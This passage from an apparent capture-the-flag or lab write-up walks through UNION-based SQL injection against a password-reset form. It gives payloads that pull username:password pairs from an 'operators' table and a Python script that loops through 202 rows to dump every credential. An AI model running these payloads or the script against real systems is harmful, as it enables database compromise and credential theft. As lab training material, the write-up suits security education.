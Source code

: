 Request:
```
test%40test.com'+UnIoN+SELECT+1,2,3,CONCAT('\r\n','\r\n',count(id),'\r\n','\r\n','%40test.com')+FROM+operators--+-
```

![Row Count](/sqli-0x02/34_row_count.png)

Dumping 202 entries on the screen would not have been good idea, and there would also be a high chance of not every entry getting printed about on the screen.

Let's fetch one entry on the screen, and we'll use that as the basis of our script which will fetch everything for us.

Request:
```
test%40test.com'+UnIoN+SELECT+1,2,3,CONCAT('\r\n','\r\n',__username_,0x3a,__password_,'\r\n','\r\n','%40test.com')+FROM+operators+LIMIT+0,1--+-
```

Output:

![First Row Fetched](/sqli-0x02/35_row1.png)

A test account in the first row is odd, and although there's a shortcut here, I'll cover that once we develop a script to fetch all the accounts.

In the above query I have used "LIMIT 0,1" to print only 1 row with 0 offset. Offset is the first part, it states which row will it start printing (or SELECTing) from the beginning of the table, the index starts from 0. The second part ("1") states how many rows to print (or SELECT) out of the output.

I've created a python script that will cycle through all the (202) accounts present here and print out the response on the terminal. This requires additional filtering as it does not print out only the credentials, which is what we care about.
``` py
import requests


def injection(a):
    return "test@test.com' UnIoN SELECT 1,2,3,CONCAT('\r\n','\r\n','cred:',__username_,0x3a,__password_,'\r\n','\r\n','@test.com') FROM operators LIMIT %s,1-- -" % a


for i in range(0,202):
    payload = {'email':injection(i)}
    r = requests.post('http://10.10.10.31/cmsdata/forgot.php', data=payload)
    print r.text
```

Explanation of the script:
1. In the first time, I imported the requests module of python to perform automated requests
2. In the fourth line, I defined an injection function which only returns an injection payload as per the for loop, and changes the OFFSET of the payload with "LIMIT 1". This allows us to cycle through the table and print out only one entry per request.
    1. I've also added a constant string "cred:" in the injection payload which will print as a prefix to every credential dumped for processing purposes.
3. In the eighth line, a for loop is created to cycle through all the accounts present in the database.
4. In the ninth line, email payload is set to be sent in the POST request
5. In the tenth line, a request is sent to the required host along with necessary data which we defined above. All of that requests data is assigned to a variable to do further processing on it.
6. In the last line we are printing out the response on the terminal

